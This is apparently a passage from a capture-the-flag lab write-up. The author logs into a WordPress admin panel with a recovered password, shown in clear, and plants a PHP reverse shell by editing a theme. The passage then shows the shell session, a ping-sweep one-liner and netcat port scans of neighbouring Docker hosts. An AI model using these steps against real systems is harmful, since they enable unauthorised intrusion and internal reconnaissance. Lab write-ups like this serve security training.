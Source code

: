 i just try to login to wordpress admin using username `william.riker` with every password that we found
and got `u*Z14ru0p#ttj83zS6` as the correct password and logged in to wordpress admin, and just doing common
way to get reverse shell by modified themes or plugin within wordpress panel editor i am using reverse-shell.php
from pentestmonkey.

```
Listening on [0.0.0.0] (family 0, port 9999)
Connection from [10.10.10.61] port 9999 [tcp/*] accepted (family 2, sport 59474)
Linux b8319d86d21e 4.10.0-37-generic #41-Ubuntu SMP Fri Oct 6 20:20:37 UTC 2017 x86_64 GNU/Linux
03:46:41 up 39 min, 0 users, load average: 9.35, 8.68, 8.08
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ hostname
b8319d86d21e
$ ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
inet 127.0.0.1/8 scope host lo
valid_lft forever preferred_lft forever
8: eth0@if9: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
link/ether 02:42:ac:11:00:04 brd ff:ff:ff:ff:ff:ff
inet 172.17.0.4/16 scope global eth0
valid_lft forever preferred_lft forever    
```

after got reverse shell i try to look what user is available in `/home` directory
but then i just got `user.txt` files saying we're not on the right place to get flag,
scanning with `LinEnum.sh` and got information we currently inside docker container (becase linenum.sh found file with docker stuff like .dockerenv and so on) and separate from the host.

before i move to service on port 8080, i wanna do ping sweep and port scan using the reverse shell that we got inside docker container
so maybe we'll found another docker machine ip address.

`for x in $(seq 1 255); do ping -W 1 -c 1 172.17.0.$x | grep from; done`
And got 4 Ip Address UP
```
UP: 172.17.0.1
UP: 172.17.0.2
UP: 172.17.0.3
UP :172.17.0.4
```

And i run full port scan on each ip address

```
$./nc -vz 172.17.0.1 1-65535 2>/dev/stdout | grep 'succeeded!'
Connection to 172.17.0.1 22 port [tcp/ssh] succeeded!
Connection to 172.17.0.1 80 port [tcp/http] succeeded!
Connection to 172.17.0.1 443 port [tcp/https] succeeded!
Connection to 172.17.0.1 5355 port [tcp/hostmon] succeeded!
Connection to 172.17.0.1 8080 port [tcp/http-alt] succeeded!
Connection to 172.17.0.1 32812 port [tcp/*] succeeded!

$./nc -vz 172.17.0.2 1-65535 2>/dev/stdout | grep 'succeeded!'
Connection to 172.17.0.2 3306 port [tcp/mysql] succeeded!

$./nc -vz 172.17.0.3 1-65535 2>/dev/stdout | grep 'succeeded!'
Connection to 172.17.0.3 80 port [tcp/http] succeeded!

$./nc -vz 172.17.0.4 1-65535 2>/dev/stdout | grep 'succeeded!'
Connection to 172.17.0.4 80 port [tcp/http] succeeded!
```
